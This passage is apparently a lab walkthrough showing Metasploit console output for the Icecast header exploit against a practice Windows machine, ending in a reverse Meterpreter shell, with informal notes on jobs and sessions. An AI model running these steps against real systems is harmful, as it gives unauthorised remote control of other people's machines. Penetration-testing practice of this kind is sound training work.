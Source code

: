 ```
msf6 exploit(windows/http/icecast_header) > set RHOSTS 10.10.245.86
RHOSTS => 10.10.245.86
msf6 exploit(windows/http/icecast_header) > options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.245.86     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   8000             yes       The target port (TCP)
```

- Use either `run -j` or `exploit` to run the script as a job

- Check the running jobs using `jobs`
  - This one tripped me up because I thought we should be looking for something here, apparently it's most likely gonna be empty unless you have 1mbps internet lol

```
msf6 exploit(windows/http/icecast_header) > jobs

Jobs
====

No active jobs.

```

- List all sessions with `sessions`, then interact with the session with `sessions -i #` to connect to the reverse shell

```
msf6 exploit(windows/http/icecast_header) > run -j
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/http/icecast_header) > 
[*] Started reverse TCP handler on 10.6.89.232:4444 
[*] Sending stage (175174 bytes) to 10.10.245.86
[*] Meterpreter session 2 opened (10.6.89.232:4444 -> 10.10.245.86:49260) at 2021-07-19 17:38:59 -0400
***NOTE: I PRESSED ENTER HERE***
msf6 exploit(windows/http/icecast_header) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.6.89.232:4444 -> 10.10.245.86:49250 (10.10.245.86)
  2         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.6.89.232:4444 -> 10.10.245.86:49260 (10.10.245.86)

msf6 exploit(windows/http/icecast_header) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```
